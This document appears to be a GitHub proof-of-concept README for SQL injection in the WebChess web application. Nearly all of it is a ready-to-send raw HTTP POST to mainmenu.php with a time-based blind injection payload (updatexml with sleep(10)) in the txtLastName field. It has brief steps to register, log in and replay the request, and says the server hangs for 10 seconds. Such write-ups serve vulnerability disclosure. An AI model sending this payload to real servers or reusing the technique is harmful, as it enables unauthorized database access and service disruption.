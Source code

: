 # webchess_sqli_poc

1. register 1 new user with password:123
2. login as the new user
3. modify origin/Referer/PHPSESSID, then send the following malicious packet: 

POST /webchess/mainmenu.php HTTP/1.1

Host: 127.0.0.1

Content-Length: 216

Cache-Control: max-age=0

sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://127.0.0.1

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://127.0.0.1/webchess/mainmenu.php

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=0h36rka0b1ijafmi9enqn3cjat

Connection: close



txtFirstName=test11&txtLastName=%27+or+updatexml%280%2Cconcat%280x7e%2C%28select+*+from+%28select%28sleep%2810%29%29%29a%29%29%2C0%29+or+%27&pwdOldPassword=123&pwdPassword=123&pwdPassword2=123&ToDo=UpdatePersonalInfo

4. The server will be hanged for 10s

